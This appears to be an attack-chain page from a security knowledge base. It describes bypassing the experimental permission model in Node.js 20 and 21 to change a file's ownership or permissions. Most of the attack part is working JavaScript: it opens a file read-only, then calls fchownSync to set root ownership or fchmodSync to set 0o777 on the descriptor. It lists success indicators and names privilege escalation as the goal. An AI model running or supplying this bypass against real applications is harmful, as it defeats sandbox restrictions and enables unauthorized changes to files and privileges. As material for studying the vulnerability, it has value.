

# Bypass Node.js Experimental Permission Model for File Ownership and Permission Modification

Multi-stage attack chain demonstrating a complete attack workflow exploiting the experimental permission model in Node.js versions 20 and 21.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Node.js runtime (versions 20 or 21 with experimental permission model enabled)

### Target Environment

- Node.js 20 or 21
- Experimental permission model activated with --allow-fs-read but not --allow-fs-write
- File system access to target files

### Initial Access Requirements

- Local execution privileges on the Node.js application
- Ability to run Node.js scripts

## Detailed Attack Procedures

### Step 1: Obtain Read-Only File Descriptor
procedure: [[procedures/Open-Read-Only-File-Descriptor-in-Node.js]]

**Objective**: Acquire a file descriptor for a target file in read-only mode, bypassing the permission model's path-based write checks.

**Instructions**: Use the Node.js fs module to open the target file with 'r' mode, which grants a read-only descriptor not subject to write permission enforcement.

Execute [[commands/node-fs-open-read-only]] to open the file:

```javascript
const fs = require('fs');
const fd = fs.openSync('target-file.txt', 'r');
console.log('File descriptor:', fd);
```

**Expected Output**: A valid file descriptor number (e.g., 3) is returned, confirming read-only access.

**Success Indicators**:
- File descriptor obtained without errors
- No permission denied exceptions for read access

### Step 2: Modify File Ownership and Permissions
procedure: [[procedures/Modify-File-Ownership-Permissions-via-File-Descriptor]]

**Objective**: Leverage the read-only file descriptor to change file ownership or permissions using fs.fchown or fs.fchmod, evading write restrictions.

**Instructions**: Pass the obtained file descriptor to fs.fchown or fs.fchmod functions, which operate on descriptors rather than paths and thus bypass the permission model's checks.

First, use [[commands/node-fs-fchown-modify]] to change ownership:

```javascript
const fs = require('fs');
const fd = fs.openSync('target-file.txt', 'r'); // From Step 1
fs.fchownSync(fd, 0, 0); // Change to root ownership (uid=0, gid=0)
console.log('Ownership modified');
fs.closeSync(fd);
```

Alternatively, use [[commands/node-fs-fchmod-modify]] to alter permissions:

```javascript
const fs = require('fs');
const fd = fs.openSync('target-file.txt', 'r'); // From Step 1
fs.fchmodSync(fd, 0o777); // Set full permissions
console.log('Permissions modified');
fs.closeSync(fd);
```

**Expected Output**: File ownership or permissions updated successfully, verifiable via ls -l or similar OS commands.

**Success Indicators**:
- Target file ownership changed (e.g., to root)
- Permissions altered without write flag errors
- Potential privilege escalation if applied to sensitive files

## Attack Chain Summary

### Key Achievements

1. Bypassed Node.js permission model write restrictions using read-only descriptors
2. Enabled unauthorized modification of file ownership and permissions
3. Facilitated privilege escalation in permission-model-reliant applications

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Privilege Escalation]] Exploitation for Privilege Escalation
- [[JavaScript]] JavaScript

### MITRE ATT&CK Tactics

- [[Privilege Escalation]] Privilege Escalation

---
*Last updated: 2023-10-01T00:00:00Z*
